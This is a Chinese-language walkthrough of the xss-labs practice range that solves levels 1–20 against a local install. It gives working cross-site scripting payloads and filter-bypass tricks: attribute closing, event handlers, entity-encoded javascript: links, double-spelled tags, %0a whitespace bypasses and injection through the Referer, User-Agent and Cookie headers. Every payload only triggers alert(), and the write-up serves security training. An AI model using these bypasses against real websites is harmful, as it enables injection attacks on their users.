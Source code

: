 # 靶场地址

+ 靶场地址：[xss-labs](https://gitcode.com/mirrors/do0dl3/xss-labs/tree/master)
+ 首次从靶场地址下载源文件的文件夹到本地
+ 解压到phpstudy的www目录下，名字改为xss-labs
+ 打开浏览器直接进入 http://127.0.0.1/xss-labs/ 即可访问靶场



+ 靶场通关参考地址：[xss-labs靶场实战全通关](https://blog.csdn.net/l2872253606/article/details/125638898?ops_request_misc=%7B%22request%5Fid%22%3A%22170288814616800182767434%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170288814616800182767434&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-125638898-null-null.142^v96^control&utm_term=xss-labs&spm=1018.2226.3001.4187)

![入口](./img/入口.png)



# level 1 

![level1_1](./img/level1_1.png)

首先确定<code>payload</code>的位置，发现如上图所示即为<code>payload</code>的位置



改写<code>payload</code>为：

~~~ javascript
<script>alert("123")</script>
~~~

![level1_2](./img/level1_2.png)

直接编写脚本注入执行即可成功



# level2

+ 首先确定<code>payload</code>的位置，如下图

![level2_1](./img/level2_1.png)



+ 编写<code>payload</code>为：

~~~ javascript
"> <script>alert(1)</script>
~~~

闭合<code>input</code>标签中<code>value</code>值然后再注入即可

![level2_2](./img/level2_2.png)



# level3

+ 首先确定<code>payload</code>的位置，如下，先输入<code>"</code>然后点搜索后发现双引号<code>"</code>被转义为<code>html</code>实体

![level3_1](./img/level3_1.png)



+ 查看源文件<code>level3.php</code>源文件，发现该位置有<code>htmlspecialchars</code>函数

![level3_2](./img/level3_2.png)



+ 查看<code>[php手册](https://www.php.net/manual/zh/function.htmlspecialchars)</code>，如下：

![level3_3](./img/level3_3.PNG)



+ 输入单引号<code>’</code>，发现单引号<code>'</code>不会被转义，用单引号<code>' </code>闭合<code>Input</code>函数

![level3_4](./img/level3_4.PNG)

![level3_5](./img/level3_5.PNG)



+ 输入<code>payload</code>为：<code>' onclick=javascript:alert() /></code>，然后点搜索按钮注入：

![level3_9](./img/level3_9.PNG)



+ 看页面源码发现页面已经被注入，后点击输入框发现注入成功

![level3_10](./img/level3_10.PNG)



# level4

+ 首先找到<code>payload</code>的点，如下图：

![level4_1](./img/level4_1.png)



+ 尝试输入<code>'</code>，发现无效

![level4_2](./img/level4_2.png)



+ 输入<code>"</code>，发现<code>value</code>属性闭合，可和<code>level3</code>一样构造函数<code>onclick</code>，<code>payload</code>为<code>" onclick=alert() "</code>

![level4_3](./img/level4_3.png)



+ 可发现函数已经构造好了，点击一下输入框即可触发函数

![level4_4](./img/level4_4.png)



#  level5

+ 首先查看源代码，发现输入<code>script</code>会被替换为<code>scr_ipt</code>，而<code>on</code>则被替换为<code>o_n</code>，同时将输入的字符转小写然后使用<code>htmlspecialchars</code>函数转换

![level5_1](./img/level5_1.png)



+ 确定<code>payload</code>的点

![level5_2](./img/level5_2.png)



+ 尝试输入<code>"</code>，发现可以将<code>value</code>属性闭合

![level5_3](./img/level5_3.png)

![level5_4](./img/level5_4.png)



+ <code>payload</code>尝试改为<code>"><script>alert()</script></code>,发现可成功注入，但最终注入失败，<code>script</code>标签被转化为<code>scr_ipt</code>

  

  ![level5_5](./img/level5_5.png)

![level5_6](./img/level5_6.png)



+ 由此,<code>on</code>会被转化为<code>o_n</code>，故此不用<code>onclick</code>或者<code>onfocus</code>等其他属性注入.尝试使用<code><a></code>标签，<code>payload</code>改为<code>"><a href="javascript:alert()"></code>，注入成功:

![level5_7](./img/level5_7.png)

![level5_8](./img/level5_8.png)



+ 发现用<code><a></code>标签注入成功，点一下该标签发现效果如下

![level5_9](./img/level5_9.png)



# level6

+ 首先查看代码，发现会将<code>on</code>转化为<code>o_n</code>，<code>script</code>转化为<code>scr_ipt</code>，<code>src</code>转化为<code>sr_c</code>，<code>data</code>转化为<code>da_ta</code>，<code>href</code>转化为<code>hr_ef</code>，同时也会使用<code>htmlspecialchars</code>函数

![level6_1](./img/level6_1.png)



+ 确定<code>payload</code>的点如下：

![level6_2](./img/level6_2.png)



+ 由之前代码审计可知，前几关使用的构造<code>onclick</code>属性及<code><a href></code>标签就不好用了，由此，可尝试大小写构造<code>payload</code>如            <code>    " /><Script>alert()</Script></code>

![level6_3](./img/level6_3.PNG)



+ 注入后，发现成功：

![level6_4](./img/level6_4.PNG)



# level7

+ 首先查看源代码，发现首先会将所有输入字符转为小写，<code>script</code>、<code>on</code>、<code>src</code>、<code>data</code>、<code>href</code>等字符转为空字符串，由此大小写绕过和构造<code>on</code>函数及<code>script</code>标签均不成功了

![level7_1](./img/level7_1.PNG)



+ 确定<code>payload</code>的地方

![level7_2](./img/level7_2.png)



+ 由上面的分析，可使用双拼写绕过，构造<code>payload</code>为<code>"/><sscriptcript>alert()</sscriptcript></code>

![level7_3](./img/level7_3.PNG)



+ 这关甚至还过滤掉了src和data，受不了了，百度找找看其他解法

​		src(source)是一个指向，可以大概理解跟href一样把，只是执行的内容不太一样
​		data一般在<iframe>标签中用来配合date:text/html（貌似解码的含义）



第二关没啥过滤只有一个html实体转义，我们回到第二关测试一下 

![level7_4](./img/level7_4.PNG)

先试一下<code>src</code>，这里配合<code>onerror</code>属性，插入一个<code><img></code>标签，闭合掉双引号跟括号，构造<code>payload</code>

<code>"> <img src='666' onerror=alert()> <"</code>

>  onerror属性是指当图片加载不出来的时候触发js函数，以上面的代码为例，这里因为src指向的是值666，而不是图片的地址和base64编码啥的，就会导致触发alert函数

![level7_5](./img/level7_5.PNG)



当然img标签还有其他姿势

①当鼠标移出图片的时候执行的属性<code>onmouseout </code>

<code>"> <img src=666 onmouseout="alert()"> <"</code>

②当鼠标移动到图片的时候执行的属性<code>onmouseover</code>

<code>"> <img src=1 onmouseover="alert()"> <"</code>



再来看看<code>data</code>的，这里利用<code>iframe</code>标签，插入一个标签<code>data:text/html;base64</code>, 将后面的内容进行<code>base64</code>解码，<code>PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+</code>进行base64解码后是<code><script>alert()</script></code>

<code>"> <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+"> <"</code>


虽然有弹窗，但是没有过关 

![level7_6](./img/level7_6.png)


# level8

+ 首先查看源代码，发现首先会将所有输入字符转为小写，<code>script</code>、<code>on</code>、<code>src</code>、<code>data</code>、<code>href</code>等字符转为空字符串，由此大小写绕过和构造<code>on</code>函数及<code>script</code>标签均不成功了，还会将<code>"</code>双引号转化为其他字符串

![level8_1](./img/level8_1.PNG)



+ 确定<code>payload</code>的位置以及会执行的动作

![level8_2](./img/level8_2.png)



+ 由此，可利用<code>href</code>隐藏属性自动触发<code>Unicode</code>解码插入一段<code>javascript</code>伪代码<code>javascipt:alert()</code>，可利用[在线Unicode编码解码工具](https://www.matools.com/code-convert-unicode)进行<code>Unicode</code>编码，将<code>javascript:alert()</code>转化为

~~~ javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
~~~



![level8_3](./img/level8_3.png)



+ 注入后点击友情链接即可触发<code>xss</code>注入

![level8_4](./img/level8_4.png)



# level9

+ 首先代码审计，查看源代码

![level9_1](./img/level9_1.PNG)



+ 根据代码审计，false等于false时(传入值没有http://)会执行if，为防止false===false需要向传入的值里加http://并用注释符注释掉否则执行不了无法弹窗，让函数strpos返回一个数字，构造payload

~~~ javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;/* http:// */
~~~



+ 注入后点击对应的<b>友情链接</b>即可弹出相应的结果

![level9_2](./img/level9_2.png)



+ 本关小结：插入指定内容（本关是http://）绕过检测，再将指定内容用注释符注释掉即可



# level10

+ 首先测一下关键字

~~~ shell
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level10_1](./img/level10_1.PNG)

![level10_2](./img/level10_2.PNG)

注入后发现所有的注入都被实体化了



+ 代码审计，查看一下项目源代码

![level10_3](./img/level10_3.PNG)

好吧，原来还有其他隐藏的传参方法，学到了，这里是get传参t_sort，并过滤掉了<>号，不能闭合插入标签，但是我们还能用onfocus事件，因为这里输入框被隐藏了，需要添加type="text"，构造payload



+ 注入下面的<code>payload</code>：

~~~ shell
?t_sort=" onclick=javascript:alert() type="text
~~~

![level10_4](./img/level10_4.PNG)



+ 注入成功，点击一下输入框会触发脚本执行

![level10_5](./img/level10_5.PNG)



+ **本关小结**：根据源码猜解传参的参数名，隐藏的input标签可以插入type="text"显示



# level11

![level11_1](./img/level11_1.png)

<code><input></code>标签有四个值，都做了隐藏处理，不难看出第四个名为t_ref的<code><input></code>标签是`http`头`referer`的参数（就是由啥地址转跳到这里的，`http`头的`referer`会记录）。先简单测试验证下前面三个标签名，GET与POST传参都试一下



GET传参：

~~~ shell
?t_link=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;&t_history=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;&t_sort=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level11_2](./img/level11_2.png)

可看到，没有赋值成功



试试POST传参：

~~~ shell
t_link=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>&t_history=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>&t_sort=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>
~~~

![level11_3](./img/level11_3.png)

POST传参也没用(由于没有办法POST传参所以这里没有测试)



考虑<code>referer</code>头，使用<code>burpsuite</code>抓包下然后添加<code>http</code>头的<code>referer</code>

~~~ shell
Referer: " sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level11_4](./img/level11_4.png)



可看到成功注入

![level11_5](./img/level11_5.png)



查看源码

![level11_6](./img/level11_6.png)

对比发现，把大于小于号><给删掉了，但是我们还能用onfocus，构造一个http头

~~~ shell
Referer: " onclick=javascript:alert() type="text
~~~

![level11_7](./img/level11_7.png)



发现注入成功

![level11_8](./img/level11_8.png)



点击下文本框，弹出弹框

![level11_9](./img/level11_9.png)



再看下源码

![level11_10](./img/level11_10.png)

跟猜想一样，这题还有GET传参，但还有<code>htmlspecialchars()</code>函数在无法闭合双引号 



 **本关小结**：考虑一下http头传值，本关是referer，但接下来也有可能是其他头，如Cookie等



# level12

![level12_1](./img/level12_1.png)

第四个参数肯定是User-Agent头，用burpsuite抓包一下，将User-Agent头修改为测试代码

~~~ shell
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level12_3](./img/level12_3.png)

![level12_4](./img/level12_4.png)



可发现成功注入

![level12_5](./img/level12_5.png)



构造想要构造的<code>User-Agent</code>头：

~~~ shell
User-Agent:" onclick=javascript:alert() type="text
~~~

![level12_6](./img/level12_6.png)



发现注入成功：

![level12_7](./img/level12_7.png)



点一下方框，触发函数：

![level12_8](./img/level12_8.png)



# level13

![level13_1](./img/level13_1.png)

同样，第四个参数是<code>t_cook</code>，猜想应该是<code>cookie</code>



尝试用<code>burpsuite</code>拦截下

![level13_2](./img/level13_2.png)



可看到确实<code>t_user</code>参数的值是<code>Cookie</code>的值

![level13_3](./img/level13_3.png)



用<code>burpsuite</code>拦截然后修改下<code>Cookie</code>的值注入：

~~~ shell
" onclick=alert() type="text 
~~~

![level13_4](./img/level13_4.png)



回到页面发现注入成功

![level13_5](./img/level13_5.png)



点击方框发现成功反弹

![level13_6](./img/level13_6.png)



**本关小结**：还是http头传参



# level14 

这题有问题，直接跳到下一关

# level15

+ 首先<code>F12</code>查看网站源代码，发现有个奇怪的<code>ngInclude</code>指令

![level15_1](./img/level15_1.png)



+ 了解下<code>ngInclude</code>指令

![level15_2](./img/level15_2.png)



+ 既然可以引用<code>html</code>文件，直接引用第一关的<code>html</code>文件网址路径尝试

~~~ shell
http://192.168.31.127:8080/xss-labs/level1.php?name=hzj
~~~

![level15_3](./img/level15_3.png)



+ 注入以下网址

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src=http://192.168.31.127:8080/xss-labs/level1.php?name=hzj
~~~

![level15_4](./img/level15_4.png)

发现相应的地方没有问题



+ 注入以下指令

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src=http://192.168.31.127:8080/xss-labs/level1.php?name=<script>alert()</script>
~~~

![level15_5](./img/level15_5.png)

发现没用



+ 在引用的网址外层加上单引号，完整<code>URL</code>如下：

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src='http://192.168.31.127:8080/xss-labs/level1.php?name=<script>alert()</script>'
~~~

![level15_6](./img/level15_6.png)

看到指令被正确使用，网址成功包含，但没有成功触发弹窗，这里可以包含那些标签如<code><a></code>、<code><input></code>、<code><img></code>、<code><p></code>标签等等，这些标签需要手动点击弹窗



+ 注入以下指令

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src='http://192.168.31.127:8080/xss-labs/level1.php?name=<a href=javascript:alert()>href</a>'
~~~

![level15_8](./img/level15_8.png)

注入成功



+ 点击对应的链接，成功弹窗

![level15_9](./img/level15_9.png)



# level16



![level16_1](./img/level16_1.png)

<code>test</code>插入到了<code>center</code>标签中，所以这里就不用闭合了。



+ 老规矩，先测试一波关键字

~~~ shell
?keyword=" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()> &#106; 
~~~

![level16_2](./img/level16_2.png)

对比发现，这里先是将字母小写化了，再把<code>script</code>替换成空格，最后将空格给实体化，想尝试一下<code>p</code>标签<code><p οnmοusedοwn=alert()>abc</p></code>，谁知道也将<code>/</code>给替换成了空格，



+ 看下后端源码，果然如此

![level16_3](./img/level16_3.png)



+ 空格可以用回车来代替绕过，回车的url编码是<code>%0a</code>，再配合上不用<code>/</code>的<code><img>、<details>、<svg></code>等标签。随便选个标签，将空格替换成回车的url编码，构造<code>payload</code>

~~~ shell
?keyword=<svg%0Aonload=alert(1)>
~~~

![level16_4](./img/level16_4.png)



+ **本关小结**：回车代替空格绕过检测

# level17

![level17_1](./img/level17_1.png)



+ 测下关键字

~~~ shell
?arg01=" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()>; &arg02=" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()>;
~~~

![level17_2](./img/level17_2.png)

对比发现，虽然加了html转义，但是这里不需要闭合符号，传入的参数都出现在了embed标签上，打开后缀名为swf的文件（FLASH插件的文件，现在很多浏览器都不支持FLASH插件了）



+ 看下<code>embed</code>标签

![level17_3](./img/level17_3.png)

<code>embed</code>标签可以理解为定义了一个区域，可以放图片、视频、音频等内容，但是呢相对于他们，<code>embed</code>标签打开不了文件的时候就会没有显示的区域在，他们就能有块错误的区域 



+ 再看下<code>onfocus</code>和<code>onclick</code>事件，这两个事件等价都是一触即发的

![level17_4](./img/level17_4.png)

支持的标签范围还广，也就是支持embed标签 ，这里呢我们可以尝试插入该标签



+ 看下<code>onmouse</code>系列事件

![level17_5](./img/level17_5.png)

跟<code>onfocus</code>事件支持的标签一样 



+ 所以，这题的解法很简单，首先得用一个支持flash插件的浏览器打开本关（打开后会有个图片出来的，不支持flash插件浏览器就没有），如果不想下载的话，自己去后端改一下也行，将后端第十七关的代码（level17.php）指向的<code>swf</code>文件改为<code>index.png</code>

![level17_6](./img/level17_6.png)



将后端代码从

![level17_7](./img/level17_7.png)

改为：

![level17_8](./img/level17_8.png)



再打开第十七关的网站

![level17_9](./img/level17_9.png)

就有个<code>embed</code>标签的区域在，其实用不用swf文件都一样，主要是区域，



+ 构造<code>payload</code>

~~~ shell
?arg02= onclick=alert()
~~~

![level17_10](./img/level17_10.png)



+ 点一下图片所在的区域就成功了

![level17_11](./img/level17_11.png)



+  **本关小结**：emm，貌似就是熟悉一下触发事件（如onclick、onmouseover）的使用



# level18

+ 看下后端代码，跟上关差别不大，且没啥过滤

![level18_1](./img/level18_1.png)



+ 修改下后端代码，将<code>swf</code>文件改为<code>php</code>文件

![level18_2](./img/level18_2.png)



+ 测试下

~~~ shell
?arg02=" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()>;
~~~

![level18_3](./img/level18_3.png)



+ 只搞了个<code>html</code>实体化函数，也没过滤啥，感觉跟上关一样，用事件触发属性即可（如onmouse系列、onfocus、onclick等），构造<code>payload</code>

~~~ shell
?arg01=a&arg02=b onmouseover=alert()
~~~

![level18_4](./img/level18_4.png)



+ 将鼠标放到插入的<code>php</code>文件上，弹出响应

![level18_5](./img/level18_5.png)



# level19



+ 先测试下

~~~ shell
?arg01=a&arg02=b onmouseover=alert()
~~~

![level19_1](./img/level19_1.png)

还有实体化函数在无法闭合，那就利用其他的



+ 查看并修改下后端代码

![level19_2](./img/level19_2.png)



+ 这关用到的是Flash Xss注入，可参考[Level 19 Flash XSS](https://blog.csdn.net/u014029795/article/details/103213877)与[Flash XSS 漏洞详解](https://blog.csdn.net/weixin_30702413/article/details/99326627)构造<code>payload</code>

~~~ shell
?arg01=version&arg02=<a href="javascript:alert()">here</a> 
~~~

![level19_3](./img/level19_3.png)



+ 最后点下链接即可弹出弹窗

![level19_4](./img/level19_4.png)



+  **本关小结**：Flash xss了解一下就行，现在许多浏览器都用不上flash插件了



# level20

![level20_1](./img/level20_1.png)



+ 这关也是有双引号，不想反编译，直接参考大佬的文章[Level 20 Flash XSS](https://blog.csdn.net/u014029795/article/details/103217680)构建payload

~~~ shell
?arg01=id&arg02=xss\"))}catch(e){alert(1)}//%26width=123%26height=123
~~~

![level20_2](./img/level20_2.png)



+ **本关小结**：Flash xss了解一下就行，现在许多浏览器都用不上flash插件了，后两关都是<code>Flash xss</code>了解下即可



**参考链接：**[xss-labs靶场实战全通关详细过程（xss靶场详解）-CSDN博客](https://blog.csdn.net/l2872253606/article/details/125638898?ops_request_misc={"request_id"%3A"170288814616800182767434"%2C"scm"%3A"20140713.130102334.."}&request_id=170288814616800182767434&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-125638898-null-null.142^v96^control&utm_term=xss-labs&spm=1018.2226.3001.4187)

